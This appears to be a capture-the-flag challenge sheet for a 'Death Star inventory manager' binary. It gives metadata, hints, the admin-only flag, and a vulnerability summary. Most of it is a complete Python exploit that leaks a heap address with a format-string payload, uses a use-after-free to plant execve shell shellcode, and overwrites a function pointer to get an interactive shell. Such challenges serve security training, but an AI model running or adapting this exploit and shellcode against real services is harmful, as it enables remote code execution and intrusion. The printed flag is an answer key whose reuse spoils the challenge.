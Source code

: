 Challenge Data:

| metadata |  |
|--- | --- |
| Developer Name(s) | Luke |
| Best Contact Slack handle / Email address | Luke (WACTF Slack) / luke.healy@cybercx.com.au |
| Challenge Category | Exploit |
| Challenge Tier | 5 |
| Challenge Type | Container and file (deathstar_inventory_manager_v0.1_experimental_donotuse.elf) |

| Player facing |  |
|--- | --- |
|Challenge Name | Fully Armed and Operational Battle Station |
|Challenge Description | Rebel hackers have stolen secret DeathStart-ng plans. They've recovered a file named 'deathstar_inventory_manager_v0.1_experimental_donotuse.elf' which was found to be running on the new IOT enabled DeathStar-ng. The rebels recommend setting up a ubuntu:18.04 docker container for experimenting, also the production binary is being run like so: ncat -lk 1300 -e /binary ... whatever that means. Good luck, we're counting on you. | 
|Challenge Hint 1 | Probably a bunch of vulns in this, but there is definitely a UAF. |
|Challenge Hint 2 | Use the source Luke... https://github.com/LukeHealy/Deathstar-ng |

| Admin Facing | <> |
| --- | --- |
| Challenge Flag| WACTF{Computers were a mistake.} |
| Challenge Vuln| Use after free allows overwriting of function pointer and DEP is disabled. |
| Docker Usage Idle | 0% CPU / 2MB RAM |
| Docker Usage Expected Peak | 0.4% CPU / 2MB RAM |

Challenge PoC
~~~python
from __future__ import print_function
import socket
import time
import sys
import subprocess
from binascii import unhexlify
from binascii import hexlify

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 1300))

def convert_to_hex_endian(addr):
    addr_e = ""
    if len(addr) % 2 != 0:
        addr = "0" + addr
    for i in range(0, len(addr), 2):
        addr_e = (addr[i] + addr[i+1]) + addr_e
    
    return unhexlify(addr_e)

def send(msg):
    sock.sendall(msg + b"\n")
    time.sleep(0.1)
    received = sock.recv(1024)
    #print(received)
    return received

def parse_leaked_addr(reply):
    #print(reply)
    addr = reply.split("\n")[0]
    addr2 = addr.split("0x")[5]
    return addr2

print("Adding first ship.")
print("Performing format string attack on ship name field.")
send(b"1")
send(b"%p%p%p%p%p%p%p%p%p")
send(b"8")
send(b"2")
addr2 = parse_leaked_addr(send("0"))
print("Leaked address of the ship: 0x" + addr2)
print("Add 8 to it.")
addr2 = hex(int(addr2, 16) + 8)[2:]
shellcode = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
call_addr = convert_to_hex_endian(addr2)
print("The leaked address is the one we want to call later: " + addr2)
print("Adding second ship")
send(b"1")
send(b"BBBB")
send(b"8")
print("Freeing the first ship.")
send(b"3")
send(b"0")
print("Performing use after free to write shellcode to first ship (now the banner).")
send(b"4")
send(b"\x90" * 8 + shellcode)
print("Freeing the second ship.")
send(b"3")
send(b"1")
print("Performing use after free to overwrite function pointer to point to first ship.")
send(b"4")
send(b"A" * 24 + call_addr)
print("Triggering call to function pointer of second ship.")
send(b"2")
sock.sendall(b"1\n")
print("Dropping into psuedo shell. (Don't run commands that have no output.)")

try:
    while True:
        cmd = raw_input("$ ")
        print(send(bytes(cmd)))
except:
    sock.close()
~~~
---

